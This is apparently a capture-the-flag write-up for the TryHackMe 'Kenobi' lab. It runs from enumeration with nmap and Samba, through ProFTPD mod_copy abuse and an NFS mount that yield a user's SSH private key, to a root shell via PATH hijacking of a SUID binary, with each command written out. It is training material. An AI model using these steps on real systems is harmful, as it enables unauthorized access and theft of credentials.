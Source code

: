 # Kenobi

##### Difficulty: [ Easy ]

**Tags:** `Linux`,  `nmap`,  `NFS`,  `searchsploit`,  `id_rsa`,  `ssh`,  `SUID file`,  `path_manipulation`

---

##### Written: 28/08/2020

**IP Address: 10.10.243.180**

---

I first tried to visit the given IP address using my web browser to see if it hosted any website. I was greeted with the following website. This shows that port 80 is open on our target machine.

<img style="float: left;" src="screenshots/screenshot1.png">

To enumerate information about the web server, I then tried accessing random directories to see if any server information and port information can be found. Surely enough, trying **"**[**http://10.10.243.180/admin**](http://10.10.243.180/admin)**"** gave us a page that told us that the server was an **Apache/2.4.18 (Ubuntu) Server** running at 10.10.243.180 Port 80.

Next, let's run an **nmap** scan on the server. we can run two nmap scans at one go, a thorough one that scans all ports (which takes a long time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sV -p- -vv 10.10.243.180

### Quick
nmap -sV -vv 10.10.243.180
```

<br>

While the thorough nmap is running in the background,  we can analyze the results of the quick nmap scan, which tells us that ports **21 (ftp), 22 (ssh), 80 (http), 111 (Remote Procedure Call), 139 (samba), 445 (samba) and 2049 (rpc)** are open.  

While the room suggests that exploitation of the server would most probably be done through ftp or samba exploitation, I decided to use **gobuster** to see if there are any hidden directories that can be enumerated. The command used is 

```
gobuster dir -u http://10.10.243.180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

I doubt there will be any useful directories found, but I've learnt that it is always good to check just in case.

<br>

While previously, I learned to enumerate samba shares using a tool, **enum4linux,** this time, I used nmap scripts to do the enumeration. The command used is:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

<br>

**Port 445** was specified as it is the port that hosted samba. The results are as follows:

<img style="float: left;" src="screenshots/screenshot2.png">

As we can see, 3 shares were enumerated, **IPC$, anonymous and print$**. By using **smbclient**, I tried logging into the **anonymous** share, and it allowed me to do so without requiring any authentication. This is a common misconfiguration on Samba machines, where anonymous login is allowed.

<br>

Using the command ```ls``` revealed that there was a **log.txt** file:

<img style="float: left;" src="screenshots/screenshot3.png">

<br>

The **log.txt** file was just a basic **ProFTPD** configuration file, which gave us a lot of interesting and potentially useful information about the server. The port that FTP was running on was port **21**.

<br>

Now let's make use of port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

<br>

In our case, port 111 gives us access to a **network file system (NFS)**. We can then use nmap to enumerate it with specific scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

<img style="float: left;" src="screenshots/screenshot4.png">

From the results, we can see that **/var** is mountable! Let's take note of this finding and try visiting the **FTP server** next.

<br>

To do so, we can use **netcat** to connect to the machine on its ftp port.

```
nc 10.10.243.180 21
```

<br>

With that, we are successfully connected to the FTP server.

We can then use a tool called **searchsploit**, which is just a command-line search tool for exploit-db, to find exploits for proftpd 1.3.5. The command is:

```
searchsploit proftpd 1.3.5
```

<img style="float: left;" src="screenshots/screenshot5.png">

Searchsploit gave us 3 possible exploits that could be used.

<br>

The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

From the **log.txt** file earlier, we know that the **id_rsa** file of user, **kenobi,** can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, we can mount our local computer to the machine and use that to obtain the **id_rsa** file. This will then allow us to access the machine via **ssh** as the user **kenobi**.

<br>

To do this, first, we first usedthe **SITE CPFR** and **SITE CPTO** commands to copy the id_rsa file from kenobi's home folder to the **/var/tmp** folder. 

<img style="float: left;" src="screenshots/screenshot6.png">

<br>

Next, we create a directory in our local computer's **/mnt** directory, using:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory onto our local computer using:

```
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
```

From there, we can just navigate to the **/tmp** folder and obtain the **id_rsa** file.

<img style="float: left;" src="screenshots/screenshot7.png">

<br>

After copying the id_rsa file over to our local machine, we need to make sure that we change its permissions to be **read and write by owner** only. We can do this with ```chmod``` .

```
chmod 600 id_rsa
```

With that done, let's now ssh into the machine with the RSA key:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

 <br>

**We are then able to obtain the user flag from the home directory of kenobi.** 

---

Next is privilege escalation. In this case, Path Variable Manipulation will be exploited with SUID binaries. The TryHackMe room taught me to use the command to find any out-of-the-ordinary files. :

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to use another  privilege-escalation script, **linPEAS,** to speed things up.

<br>

On our local computer, we can host a simple HTTP server using Python's in-built server. To do so, I first ```cd``` into the linPEAS directory, which contained the **linpeas.sh** file that I wanted to send over to the machine. I then started the server using: 

```
python3 -m http.server
```

This creates a server at the default port **8000**. 

On the victim's machine, I used

```
wget http://<YOUR IP_HERE>/linpeas.sh
```

After successfully downloading the linpeas script, I just had to make it an executable file before I could run it. 

<br>

After running linpeas, I noticed that there was an interesting file that had its **SUID** bit set => **/usr/bin/menu**:

<img style="float: left;" src="screenshots/screenshot8.png">

<br>

Upon running the menu binary, we come across some interesting options:

<img style="float: left;" src="screenshots/screenshot9.png">

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID bit being set) .

Using the command ```strings```, we can look for human-readable strings on the menu binary.

**Results:**

<img style="float: left;" src="screenshots/screenshot10.png">

From the results, we find out that the commands run in the menu binary are done without using their full paths. (e.g. not using /usr/bin/curl or /usr/bin/uname)

Hence, we can manipulate our **PATH** to gain a root shell.

<br>

To do so, we first copy the **/bin/sh** shell into a new file called **curl**, Give it the proper permissions (**777**), then put its location into our **PATH**. When the /usr/bin/menu binary is run, it will use our path variable to find the **curl** binary. Thus, it will run the curl binary that we created earlier on, which is actually a copy of **/usr/sh**. 

This will cause a shell to be opened as root, effectively allowing us to escalate our privileges.

<img style="float: left;" src="screenshots/screenshot11.png">

*(Example given in TryHackMe)*

Hence, when we run the menu binary and run option 1, which uses the curl binary that we created earlier on, we will be able to gain access to a root shell as root.

<img style="float: left;" src="screenshots/screenshot12.png">

<br>

**With that, we are able to obtain the root flag from the home directory of the root user, and the room is completed.**






